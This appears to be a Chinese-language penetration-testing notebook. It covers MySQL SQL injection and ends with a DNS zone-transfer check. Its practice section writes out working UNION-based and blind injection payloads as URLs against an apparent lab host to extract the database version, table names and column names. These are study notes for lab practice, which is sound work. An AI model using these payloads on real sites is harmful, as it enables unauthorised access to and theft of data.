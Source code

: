 #Pentester
##一、sql injection
###基本思路：
- 1. 判断是否有注入
- 2. 判断当前库名，表名，字段名
- 3. 获取数据
- 4. 考虑无回显处理


###sql基本用法
- 1.select id,num from test union select 1,2
一般会逐个替换1,2换成想要显示的信息，需要确定哪个位置可以正确显示，当只有一个位置可以显示的时候，可以使用concat,这里可以判断查询使用了几个字段，如果该语句正常则表示使用了2个字段。如果union用不了可以使用order by 判断。 例子： order by 1 正确，order by 3 错误则表示查询使用了2个字段
例如：select ip from temp union select concat(@@version,':',database());
例2：select concat('my','s','ql','+',@@version);   结果：mysql+5.6.28
例3：select num,ip from temp union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
num为数字型，ip为字符型，information表里面的信息都是字符型，所有要放在2这个位置，放在1的位置会报错（类型不匹配）
注意：union后面跟的列的个数必须和前面select 的个数一致,union select 后面的数字可以接任意想获取的信息（version(),current_user(),@@version,database()等）
concat()函数用于连接一行中的字段，显示效果还是会有多行，而 group_concat用于把所有字段的内容都显示成一个大字符串。
mysql> select concat(id,name) from table1;
+-----------------+
| concat(id,name) |
+-----------------+
| 1luyg           |
| 2lucy           |
+-----------------+

mysql> select group_concat(id,name) from table1;
+-----------------------+
| group_concat(id,name) |
+-----------------------+
| 1luyg,2lucy           |
+-----------------------+

- 2.select id,num from test order by 2  根据num进行排序
   select * from test order by 4 根据第四列进行排序，通过这个语句可以判断数据表中有多少列
- 3. select substr(table_name,17,1) from information_schema.tables limit 1;
  substr用于字符串截取，17代表取出第17个字符，后面的1代表取1个，如果是2代表从17的位置开始取出2个字符，   limit 1代表取出1条记录
- 实战:
 1. 判断注入：
http://172.16.45.128/cat.php?id=1 and true   返回正确结果
http://172.16.45.128/cat.php?id=1 and false  返回错误结果
该url存在注入
 2. 判断查询的字段个数：
http://172.16.45.128/cat.php?id=1 union select 1,2,3,4 返回正确结果
 3.判断数据库版本和库名
http://172.16.45.128/cat.php?id=1 union select 1,@@version,3,4 这里把最后的2变成了@@verison 实际的sql语句变成了  select @@version , 放在2这个位置是因为在页面上有显示内容，可以直接把查询后的信息在页面上展示了，这个可以根据实际情况进行适当处理，2这个位置可以换成database()来获取库名字，user()获取数据库用户名
4. 判断表名
使用union方式：
http://172.16.45.128/cat.php?id=1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables),3,4
![image](https://github.com/luyg24/IT_security/blob/master/guess_table.png)
上述方法会查找所有表名，如果只想查找指定数据库的表，使用table_schema作为条件判断
select id,name,sex from table1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema = 'photoblog'),3;
使用盲注方式：
http://172.16.45.128/cat.php?id=1 and (SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 ) > 'A'
如果返回正常代表表名的第一个字符是>'A'的
select * from users where id = 1 and ((SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 )> 'A');
http://172.16.45.128/cat.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),1,1

5. 获取字段
select column_name from information_schema.columns where table_name = 'users'
- 参考：http://drops.wooyun.org/tips/123
##二、
###dns区域传送检查
- nslookup 进入交互shell，使用server 指定dns服务器，然后 ls -d 域名，例如ls -d abc.com.cn   即可
参考：http://www.lijiejie.com/dns-zone-transfer-1/
- 

